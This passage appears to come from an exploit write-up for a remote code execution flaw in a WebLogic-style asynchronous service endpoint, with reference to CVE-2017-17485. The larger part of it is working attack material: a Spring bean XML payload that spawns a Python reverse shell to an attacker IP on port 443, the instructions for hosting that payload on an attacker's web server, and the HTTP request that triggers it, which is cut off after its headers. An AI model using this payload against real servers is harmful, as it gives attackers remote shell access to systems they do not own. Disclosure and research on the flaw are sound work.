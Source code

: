 <img src="imgs/RequestReceivedAttackerHost.png" width="600px">

As shown above, the request is successfully executed on the server. 

### RCE Exploitation

Two steps are required for successful attack. The construction method can refer to the [CVE-2017-17485](https://nvd.nist.gov/vuln/detail/CVE-2017-17485) and the payload described below ignores the jdk version limit to obtain reliable and universal exploitation of this vulnerability.

A malicious XML file can be loaded from an external host to perform remote arbitrary code execution (RCE) on the server. 

The malicious XML file was hosted on the attacker’s host using the lightweight Python web server module "SimpleHTTPServer". This XML file contains a malicious payload (bean) to spawn a Python reverse shell one-liner on TCP port 443 within the context of the application.

XML Payload hosted on the attacker’s web server:
```xml
<?xml version="1.0" encoding="utf-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.198.143.172",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

HTTP Request to trigger the vulnerability:
```http
POST /_async/AsyncResponseService HTTP/1.1
Host: vulnerableHost:7004
Content-Length: 624
Content-type: text/xml;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Connection: close
```
